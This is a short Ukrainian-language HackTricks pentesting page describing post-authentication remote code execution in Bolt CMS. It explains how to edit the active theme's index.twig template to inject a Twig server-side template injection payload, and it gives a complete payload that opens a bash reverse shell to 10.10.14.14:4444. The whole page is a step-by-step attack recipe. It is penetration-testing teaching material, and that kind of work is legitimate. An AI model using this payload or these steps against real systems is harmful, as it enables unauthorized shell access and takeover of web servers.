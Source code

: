 # Bolt CMS

{{#include ../../banners/hacktricks-training.md}}

## RCE

Після входу як адміністратор (перейдіть на /bot для доступу до форми входу), ви можете отримати RCE в Bolt CMS:

- Виберіть `Configuration` -> `View Configuration` -> `Main Configuration` або перейдіть за URL-адресою `/bolt/file-edit/config?file=/bolt/config.yaml`
- Перевірте значення теми

<figure><img src="../../images/image (771).png" alt=""><figcaption></figcaption></figure>

- Виберіть `File management` -> `View & edit templates`
- Виберіть базову тему, знайдену на попередньому (`base-2021` в цьому випадку) кроці, і виберіть `index.twig`
- У моєму випадку це за URL-адресою /bolt/file-edit/themes?file=/base-2021/index.twig
- Вставте ваш payload у цей файл через [template injection (Twig)](../../pentesting-web/ssti-server-side-template-injection/#twig-php), наприклад: `{{['bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"']|filter('system')}}`
- І збережіть зміни

<figure><img src="../../images/image (948).png" alt=""><figcaption></figcaption></figure>

- Очистіть кеш у `Maintenance` -> `Clear the cache`
- Знову отримайте доступ до сторінки як звичайний користувач, і payload має бути виконано

{{#include ../../banners/hacktricks-training.md}}
